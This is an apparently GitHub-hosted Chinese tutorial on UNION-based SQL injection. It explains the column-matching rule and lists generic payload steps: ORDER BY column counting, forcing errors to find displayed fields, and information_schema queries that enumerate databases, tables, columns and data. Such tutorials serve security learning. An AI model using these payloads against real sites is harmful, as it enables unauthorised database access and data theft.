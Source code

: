 # 注入法详解
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 回显注入法(能在页面直接显示结果)
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;UNION联合查询: 通过 union 操作符，合并两个或者多个select语句的结果集
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;union内部的select语句必须拥有**相同数量的列**，列的数据类型必须相似，列的顺序也必须相同
![](/assets/WX20190221-152225@2x.png)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;union注入法前提要知道列数和页面能回显，一般注入步骤如下:
```sql
        确定列数: order by NUM，NUM采用二分方法加快查询速度，NUM回显报错就说明超过列数
        显示位置: 参数 union select num1，num2，..,NUM，参数要强制报错，才能显示返回数据的位置
        查询库: union select num1,group_concat(schema_name) from information_schema.schemata
        查询表: union select num1,group_concat(table_name) from information_schema.tables where table_schema=database()
        查询列: union select num1,group_concat(column_name) from information_schema.columns where table_name = 表名,表名要么加引号,要么改为十六进制
        查数据: union select num1,concat_ws(0x7e,列名,列名) from 库名.表名
```


